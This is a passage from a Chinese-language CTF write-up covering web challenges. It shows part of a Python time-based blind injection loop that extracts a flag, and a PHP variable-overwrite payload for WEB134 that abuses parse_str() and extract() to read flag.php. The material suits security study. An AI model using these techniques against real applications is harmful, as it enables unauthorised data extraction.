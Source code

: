 ```
​		try:
​			start = int(t.time())
​			r = requests.get(url+payload)

			# r = requests.post(url, data=data)

​			end = int(t.time()) - start
​			if end >= 3:		
​				result += char
​				print("Flag: "+result)
​				break
​		except Exception as e:
​			print(e)
```



## WEB134

```
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

```php
parse_str():把查询字符串解析到变量中
extract():函数从数组中将变量导入到当前的符号表  
```

```
parse_str($_SERVER['QUERY_STRING']);
var_dump($_POST);
先会以数组来输出，然后extract就成了正常的传参
    ?_POST[a]=dotast
    就会输出array(1) { ["a"]=> string(6) "dotast" }，再使用extract函数，就会变成$a=dotast
```

```
payload:GET:?_POST[key1]=36d&_POST[key2]=36d
```



## WEB135

